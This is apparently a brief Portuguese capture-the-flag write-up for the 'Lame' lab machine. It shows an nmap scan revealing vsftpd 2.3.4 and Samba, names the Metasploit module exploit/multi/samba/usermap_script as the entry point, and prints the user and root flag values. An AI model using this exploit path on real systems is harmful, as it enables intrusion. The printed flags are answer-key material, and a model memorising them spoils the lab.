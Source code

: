 # Lame Writeup

## Scan

```
# Nmap 7.92 scan initiated Mon Dec 27 09:10:40 2021 as: nmap -sV -Pn -v -oN scan.txt 10.129.166.5
Nmap scan report for 10.129.166.5
Host is up (0.16s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```

Tendo feito o scan, conseguimos ver dois vetores de ataque, o vsftpd e o samba. O vetor correto de ataque é o serviço samba com exploit publico no msfconsole.

* Exploit:
```
exploit/multi/samba/usermap_script
```

* User Flag:
```
cd home/makis
cat user.txt
c5c36bc30b80f86371ce1fee06cbc0ec
```
* Root Flag:
```
cd /root
cat root.txt
f7a66d7d0fb71f3e9d4470c1e9490943
```
